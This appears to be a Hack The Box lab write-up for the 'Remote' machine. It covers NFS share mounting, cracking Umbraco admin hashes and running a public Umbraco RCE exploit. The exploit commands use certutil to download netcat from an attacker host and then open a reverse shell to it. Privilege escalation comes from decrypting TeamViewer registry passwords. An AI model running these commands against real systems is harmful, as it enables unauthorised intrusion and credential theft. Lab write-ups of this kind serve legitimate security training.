

# Remote

### Reconnaissance

- port 21/tcp FTP Microsoft ftpd
- port 80/tcp HTTP Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
- port 111/tcp RPCBIND
- port 139/tcp RPC
- port 139/tcp NetBIOS
- port 445/tcp SMB
- port 2049/tcp NFS netlockmgr 1-4 (RPC #100021)
- port 5985/tcp WinRM
- port 47001/tcp WinRM
- port 49664 - 49680/tcp RPC

**Port 21 FTP**

Anonymous access is enabled but no files are listed

**Port 80**

Website for Acme Widgets, /people could be useful for user enumeration

**Port 445**

SMB anon access is disabled

**Port 2049**

Use `showmount` to list any NFS shares

`showmount -e 10.10.10.180`

We can mount the share to view the contents

`sudo mount -t nfs 10.10.10.180:site_backups /mnt/remote`

Looking through the file system we find a DB file, Umbraco.sdf, that contains user emails and hashed passwords

We can see user credentials with `strings` showing emails, password hashes, and the hashing algorithm

The admin@htb.local password is hashed with SHA1 and can be cracked with john or hashcat to get the admin 
credentials for the Umbraco CMS panel at /umbraco

### Exploitation

Looking around the dashboard we can find the version of Umbraco running and check for any known exploits

[Umbraco authenticated RCE](https://www.exploit-db.com/exploits/49488) affecting version 7.12.4, works and gives us RCE

We can use the exploit to upload a netcat binary and get a reverse shell

*To use the `-a` option, declare the argument with `-a="args go here"` otherwise the shell splits the string 
into multiple arguments. The exploit uses XML so we need to escape the \ characters*

`python3 49488.py -u admin@htb.local -p baconandcheese -i 'http://10.10.10.180/' -c 'certutil' -a='-urlcache -f http://10.10.10.10:8181/nc64.exe C:\\Windows\\System32\\Spool\\Drivers\\color\\nc.exe'`

`python3 49488.py -u admin@htb.local -p baconandcheese -i 'http://10.10.10.180/' -c 'C:\\Windows\\System32\\Spool\\Drivers\\color\\nc.exe' -a='10.10.10.10 443 -e cmd.exe'`

### Privilege Escalation

Enumerating Program Files (x86) we see that TeamViewer v.7 is installed

TeamViewer stores AES encrypted passwords in the registry key `HKLM\SOFTWARE\WOW6432Node\TeamViewer\Version7`

These passwords all use the same AES key and IV, [shown here](https://whynotsecurity.com/blog/teamviewer/)

Using CyberChef with the key and IV, we can decrypt the password

Then we can get an Administrator reverse shell with `evil-winrm`

### Lessons Learned

- Sometimes FTP directories are just empty!

- Show mountable NFS shares on a target with `showmount -e 10.10.10.10`

- Mount NFS shares with `sudo mount -t nfs 10.10.10.10:share_name /mnt/share_name/ -nolock`
